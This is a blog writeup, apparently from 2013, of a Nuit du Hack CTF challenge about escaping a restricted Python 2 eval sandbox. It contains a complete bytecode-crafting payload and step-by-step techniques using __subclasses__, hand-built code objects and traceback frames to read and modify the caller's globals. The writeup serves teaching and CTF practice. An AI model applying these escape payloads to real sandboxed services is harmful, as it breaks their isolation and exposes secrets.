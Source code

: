 ```yaml
---
title: 'Escaping a Python sandbox (NdH 2013 quals writeup)'
date: 2013-03-10T00:00:00+02:00
tags: ["CTF", "writeup", "hacking"]
draft: false
---
```


The Nuit du Hack CTF 2013 Quals round was taking place yesterday. As usual,
I'll be posting a few writeups about fun exercises and/or solutions from this
CTF. If you want more, my teammate [w4kfu](http://blog.w4kfu.com/) should be
posting some writeups as well on his blog soon.

**TL;DR:**

{{< highlight python >}}
auth(''.__class__.__class__('haxx2',(),{'__getitem__':
lambda self,*a:'','__len__':(lambda l:l('function')( l('code')(
1,1,6,67,'d\x01\x00i\x00\x00i\x00\x00d\x02\x00d\x08\x00h\x02\x00'
'd\x03\x00\x84\x00\x00d\x04\x006d\x05\x00\x84\x00\x00d\x06\x006\x83'
'\x03\x00\x83\x00\x00\x04i\x01\x00\x02i\x02\x00\x83\x00\x00\x01z\n'
'\x00d\x07\x00\x82\x01\x00Wd\x00\x00QXd\x00\x00S',(None,'','haxx',
l('code')(1,1,1,83,'d\x00\x00S',(None,),('None',),('self',),'stdin',
'enter-lam',1,''),'__enter__',l('code')(1,2,3,87,'d\x00\x00\x84\x00'
'\x00d\x01\x00\x84\x00\x00\x83\x01\x00|\x01\x00d\x02\x00\x19i\x00'
'\x00i\x01\x00i\x01\x00i\x02\x00\x83\x01\x00S',(l('code')(1,1,14,83,
'|\x00\x00d\x00\x00\x83\x01\x00|\x00\x00d\x01\x00\x83\x01\x00d\x02'
'\x00d\x02\x00d\x02\x00d\x03\x00d\x04\x00d\n\x00d\x0b\x00d\x0c\x00d'
'\x06\x00d\x07\x00d\x02\x00d\x08\x00\x83\x0c\x00h\x00\x00\x83\x02'
'\x00S',('function','code',1,67,'|\x00\x00GHd\x00\x00S','s','stdin',
'f','',None,(None,),(),('s',)),('None',),('l',),'stdin','exit2-lam',
1,''),l('code')(1,3,4,83,'g\x00\x00\x04}\x01\x00d\x01\x00i\x00\x00i'
'\x01\x00d\x00\x00\x19i\x02\x00\x83\x00\x00D]!\x00}\x02\x00|\x02'
'\x00i\x03\x00|\x00\x00j\x02\x00o\x0b\x00\x01|\x01\x00|\x02\x00\x12'
'q\x1b\x00\x01q\x1b\x00~\x01\x00d\x00\x00\x19S',(0, ()),('__class__',
'__bases__','__subclasses__','__name__'),('n','_[1]','x'),'stdin',
'locator',1,''),2),('tb_frame','f_back','f_globals'),('self','a'),
'stdin','exit-lam',1,''),'__exit__',42,()),('__class__','__exit__',
'__enter__'),('self',),'stdin','f',1,''),{}))(lambda n:[x for x in
().__class__.__bases__[0].__subclasses__() if x.__name__ == n][0])})())
{{< /highlight >}}

<!--more-->

One of the exercises, called "Meow", gave us a remote restricted Python shell
with most builtins disabled:

{{< highlight python >}}
{'int': <type 'int'>, 'dir': <built-in function dir>,
'repr': <built-in function repr>, 'len': <built-in function len>,
'help': <function help at 0x2920488>}
{{< /highlight >}}

A few functions were available, namely `kitty()` displaying an ASCII cat,
and `auth(password)`. I assumed our goal was to bypass the authentication or to
find the password. Unfortunately, our Python commands are passed to `eval` in
expression mode, which means we can't use any Python statement: no assignment,
no print, no function/class definitions, etc. This makes things a lot harder to
work with. We'll have to use some Python magic (this writeup will be full of
it, I promise).

I first assumed `auth` was simply comparing the password to a constant string.
In this case, I could use a custom object with `__eq__` overwritten to always
return True. However, there is no trivial way to craft that object: we can't
define our own classes using the `class Foo:` syntax, we can't modify an
already existing object (no assignment), etc. This is where our first bit of
Python magic comes into place: we can directly instantiate a `type` object to
create a class object, then instantiate this class object. Here is how you
would do it:

{{< highlight python >}}
type('MyClass', (), {'__eq__': lambda self: True})
{{< /highlight >}}

However, we can't use `type` here: it is not defined in our builtins. We can
use a second trick: every Python object has a `__class__` attribute, which
gives us the type of an object. For example, `''.__class__` is `str`. But more
interesting: `str.__class__` is `type`! Which means we can
use `''.__class__.__class__` to instantiate our new type.

Unfortunately, the `auth` function is not simply comparing our object to a
string. It's doing a lot of other things to it: slicing it to 14 characters,
taking its length via `len()` and calling `reduce` with a strange `lambda` as
well. Without the code it's going to be hard to guess how to make an object
that behaves exactly like the function wants, and I don't like guessing. We
need more magic!

Enter code objects. Python functions are actually objects which are made of a
code object and a capture of their global variables. A code object contains the
bytecode of that function, as well as the constant objects it refers to, some
strings and names, and other metadata (number of arguments, number of locals,
stack size, mapping from bytecode to line number). You can get the code object
of a function using `myfunc.func_code`. This is forbidden in the restricted
mode of the Python interpreter, so we can't see the code of
the `auth` function. However, we can craft our own functions like we crafted
our own types!

You might wonder: why do we need to use code objects to craft functions when we
already have `lambda`? Simple: lambdas cannot contain statements. Random
crafted functions can! For example, we can create a function that prints its
argument to stdout:

{{< highlight python >}}
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
f = ftype(ctype(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S', (None,),
                (), ('s',), 'stdin', 'f', 1, ''), {})
f(42)
# Outputs 42
{{</ highlight >}}

There is a slight problem with this though: to get the type of a code object,
we need to access the `func_code` attribute, which is restricted. Fortunately,
we can use even more Python magic to find our type without accessing forbidden
attributes.

In Python, a type object has a `__bases__` attribute which returns the list of
all its base classes. It also has a `__subclasses__` method that returns the
list of all types that inherit from it. If we use `__bases__` on a random type,
we can reach the top of the type hierarchy (`object` type), then read the
subclasses of `object` to get a list of all types defined in the interpreter:

{{< highlight python >}}
>>> len(().__class__.__bases__[0].__subclasses__())
81
{{</ highlight >}}

We can then use this list to find our `function` and `code` types:

{{< highlight python >}}
>>> [x for x in ().__class__.__bases__[0].__subclasses__()
...  if x.__name__ == 'function'][0]
<type 'function'>
>>> [x for x in ().__class__.__bases__[0].__subclasses__()
...  if x.__name__ == 'code'][0]
<type 'code'>
{{</ highlight >}}

Now that we can build any function we want, what can we do? We can't directly
access the non restricted builtins: the functions we craft are still executed
in the restricted environment. We can get a non sandboxed function to call us:
the `auth` function call the `__len__` method of the object that we pass as a
parameter. This is however not enough to get out of the sandbox: our globals
are still the same and we can't for example import a module. I tried to look at
all the classes we could access via the `__subclasses__` trick to see if we
could get a reference to a useful module through there, but no dice. Even
getting Twisted to call one of our crafted functions via the `reactor` was not
enough. We could try to get a traceback object and use it to browse the stack
frames of our callers, but the only trivial ways to get a traceback object are
via the `inspect` or the `sys` modules which we can't import. After being
blocked on that problem, I went to work on other problems, slept a lot, and
woke up to the solution I needed!

There actually is another way to get a traceback object in Python without using
the standard library: context managers. They are a new feature of Python 2.6
which allow some kind of object life scoping in Python:

{{< highlight python >}}
class CtxMan:
    def __enter__(self):
        print 'Enter'
    def __exit__(self, exc_type, exc_val, exc_tb):
        print 'Exit:', exc_type, exc_val, exc_tb

with CtxMan():
    print 'Inside'
    error

# Output:
# Enter
# Inside
# Exit: <type 'exceptions.NameError'> name 'error' is not defined
        <traceback object at 0x7f1a46ac66c8>
{{</ highlight >}}

We can create a context manager object which will use the traceback object
passed to `__exit__` to display the global variables of our caller, caller
which is out of the restricted environment. To do that, we use a combination of
all our previous tricks. We create an anonymous type defining `__enter__` as a
simple lambda and `__exit__` as a lambda that accesses what we want in the
traceback and passes it to our `print` lambda (remember, we can't use
statements):

{{< highlight python >}}
''.__class__.__class__('haxx', (),
  {'__enter__': lambda self: None,
   '__exit__': lambda self, *a:
     (lambda l: l('function')(l('code')(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S',
                                        (None,), (), ('s',), 'stdin', 'f',
                                        1, ''), {})
     )(lambda n: [x for x in ().__class__.__bases__[0].__subclasses__()
                    if x.__name__ == n][0])
     (a[2].tb_frame.f_back.f_back.f_globals)})()
{{</ highlight >}}

We need to go deeper! Now, we need to use this context manager (that we will
call `ctx` in our next code snippets) in a function that will purposefully
raise an error in a `with` block:

{{< highlight python >}}
def f(self):
    with ctx:
        raise 42
{{</ highlight >}}

And we put `f` as the `__len__` of our crafted object that we pass to
the `auth` function:

{{< highlight python >}}
auth(''.__class__.__class__('haxx2', (), {
  '__getitem__': lambda *a: '',
  '__len__': f
})())
{{</ highlight >}}

Refer to the beginning of the article for the "real" inlined code. When ran on
the server, this causes the Python interpreter to run our `f` function, go
through the crafted context manager `__exit__`, which will access the globals
from our caller, which contain these two interesting values:

```
'FLAG2': 'ICanHazUrFl4g', 'FLAG1': 'Int3rnEt1sm4de0fc47'
```

Two flags?! Turns out that the same service was used for two successive
exercises. Double kill!

For more fun, by accessing the globals we can do more than simply reading: we
can also modify the flags! Using `f_globals.update({ 'FLAG1': 'lol', 'FLAG2':
'nope' })` the flags are changed until the next server restart. This was
apparently not planned by the organizers.

Anyway, I still don't know how we were supposed to solve this challenge
normally, but I think this "generic" solution is a good way to introduce people
to some nice Python black magic. Use it carefully, it's easy to get Python to
segfault using crafted code objects (exploiting the Python interpreter and
running an x86 shellcode via crafted Python bytecode will be left as an
exercise for the reader). Thanks to the Nuit du Hack organizers for this nice
exercise.
